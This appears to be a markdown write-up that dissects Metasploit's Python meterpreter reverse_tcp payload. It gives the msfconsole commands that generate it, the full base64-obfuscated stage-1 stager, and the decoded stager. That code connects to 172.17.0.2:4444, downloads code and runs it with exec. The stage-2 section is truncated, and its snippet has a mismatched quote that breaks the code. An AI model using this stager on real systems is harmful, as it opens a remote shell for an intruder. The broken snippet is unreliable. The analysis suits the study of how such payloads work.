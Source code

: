 # Metasploit Python meterpreter_reverse_tcp

## Stage 1 (Stager/Loader)

### Generate
```
msf5> use payload/python/meterpreter/reverse_tcp
msf5 payload(python/meterpreter/reverse_tcp) > generate -f raw -o stage1.py
```

### Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzE3Mi4xNy4wLjInLDQ0NDQpKQoJCWJyZWFrCglleGNlcHQ6CgkJdGltZS5zbGVlcCg1KQpsPXN0cnVjdC51bnBhY2soJz5JJyxzLnJlY3YoNCkpWzBdCmQ9cy5yZWN2KGwpCndoaWxlIGxlbihkKTxsOgoJZCs9cy5yZWN2KGwtbGVuKGQpKQpleGVjKGQseydzJzpzfSkK')))
```

Note: the dict is used to apply py2/3 compatibility with regards to decoding strings

#### Base64 Decoded Content
```python
import socket,struct,time
for x in range(10):
	try:
		s=socket.socket(2,socket.SOCK_STREAM) # 2 = socket.AF_INET
		s.connect(('172.17.0.2',4444))        # connect to target IP
		break
	except:
		time.sleep(5)                         # sleep 5 secs after each try
l=struct.unpack('>I',s.recv(4))[0]        # Read the length of the payload into a 4 byte unsigned integer in native byte order
d=s.recv(l)                               # receive data, bufsize=l
while len(d)<l:
	d+=s.recv(l-len(d))
exec(d,{'s':s})                           # provide the socket file descriptor as global var 's' to payload in d
```

## Stage 2 (Meterpreter shell)

### Generate
```
msf5> use payload/python/meterpreter_reverse_tcp
msf5 payload(python/meterpreter_reverse_tcp) > generate -f raw -o stage2.py
```

### Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('IyEvdXN...')))
```

### Base64 Decoded Content
```python
f = open('python_stage2.py')
code = f.read()
exec(code.replace('exec, 'print'))
#!/usr/bin/python
import binascii
import code
import os
import platform
import random
import re
...
```

Stored in file `stage2_decoded.py`
